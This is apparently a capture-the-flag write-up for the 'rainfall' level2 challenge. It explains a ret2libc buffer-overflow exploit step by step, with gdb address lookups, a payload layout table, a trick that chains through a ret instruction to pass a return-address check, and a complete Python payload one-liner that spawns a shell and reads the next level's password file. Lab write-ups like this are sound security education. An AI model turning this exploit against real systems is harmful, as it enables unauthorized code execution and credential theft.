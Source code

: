 ## Return of the libc (level2)

As in the last level, this [binary](level2/source.c) uses gets, which allows us
to rewrite the return address of the function where it is called and to move the
instruction pointer where we want. The main difference here is that there is no
function calling a shell in the binary, so we will have to do it ourself.

For this we will execute an exploit called
[ret2libc](https://bufferoverflows.net/ret2libc-exploitation-example/), which
will simply make us return inside a libc function. To launch a shell all we have
to do is to get the [system](https://linux.die.net/man/3/system) function's
address and pass a command string like `/bin/sh` to it. We will also use exit as
system's own return address so that the exploit exits cleanly.

### step 1: Get the addresses

```shell
# run gdb on the binary
gdb ./level2
# break on main
(gdb) b main
Breakpoint 1 at 0x8048542
(gdb) run
Starting program: /home/user/level2/level2

Breakpoint 1, 0x08048542 in main ()
# get system's address
(gdb) p system
$1 = {<text variable, no debug info>} 0xb7e6b060 <system>
(gdb) p exit
$2 = {<text variable, no debug info>} 0xb7e5ebe0 <exit>
```

Now that we have our two function addresses, all we need left is an address
pointing to a shell string. To do that we are going to include the said string
at the begining of our payload and use strdup's returned value as the command
argument for system.

```shell
# break in the p function
(gdb) b e
Breakpoint 2 at 0x80484da
(gdb) c
Continuing.

Breakpoint 2, 0x080484da in p ()
# disassemble the function
(gdb) disass
... # removed some lines for brevity
   0x08048534 <+97>:    mov    %eax,(%esp)
   0x08048538 <+100>:   call   0x80483e0 <strdup@plt>
   0x0804853d <+105>:   leave
   0x0804853e <+106>:   ret
...
# break on the instruction after the strdup call
(gdb) b *0x0804853d
Breakpoint 3 at 0x804853d
(gdb) c
Continuing.
# now we reach the gets call so input the command string
/bin/sh
/bin/sh # the puts call which gives us back what we entered

Breakpoint 3, 0x0804853d in p ()
# now that we passed the strdup call, see the return value
(gdb) p (char *)$eax
$4 = 0x804a008 "/bin/sh"
```

### step 2: Build the payload

| command string (8) | padding (72) | system (4) | exit (4)   | strdup return (4) |
|--------------------|--------------|------------|------------|-------------------|
| "/bin/sh"          | 0x909090...  | 0xb7e6b060 | 0xb7e5ebe0 | 0x804a008         |

> The padding is made of 0x90 bytes which are noop instructions. This is not
> really necessary since this part of the memory is not gonna be executed but
> this is an "exploit good practice" I guess. Also, the addresses contained
> in the payload will need to be reversed because the rainfall system is little
> endian.

We place the command string first so that it gets copied by the strdup call. It
is eight bytes long because it ends with a null byte. Then we add 72 bytes of
padding. The buffer to overflow is 76 bytes long and since the return address of
the function _p_ is at $ebp + 4, we need to add 4 bytes to start overwriting it.
After that we can place system's address where we will go once _p_ returns. The
exit address will be the return address of the system call and finally we can
pass the argument of system which is the result of the strdup call.

This would work in "normal" circumstances. But here, the binary checks that
_p_'s return address does not start with 0xb, which is the case here with
system's address. This broadly excludes any stack address or library functions.
The trick to remedy this is to use the ret instruction of the _p_ function
itself. As shown above, its address is _0x0804853e_, which passes the stack
test. We just have to insert it before the system address in the payload.

So instead of the p's ret instruction directly poping the system's address and
loading it into _eip_ (the instruction pointer), it will loop on itself once
before eventually doing so. However, the overall logic remains the same:

| command string (8) | padding (72) | ret        |system (4)  | exit (4)   | strdup return (4) |
|--------------------|--------------|------------|------------|------------|-------------------|
| "/bin/sh"          | 0x909090...  | 0x0804853e | 0xb7e6b060 | 0xb7e5ebe0 | 0x804a008         |

```shell
# finally feed the complete payload to the binary
(python -c 'print "/bin/sh\x00" + "\x90" * 72 + "\x08\x04\x85\x3e"[::-1] + "\xb7\xe6\xb0\x60"[::-1] + "\xb7\xe5\xeb\xe0"[::-1] + "\x08\x04\xa0\x08"[::-1]'; cat) | ./level2
/bin/sh
# the shell is yours
whoami
level3
cat /home/user/level3/.pass
492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02
```
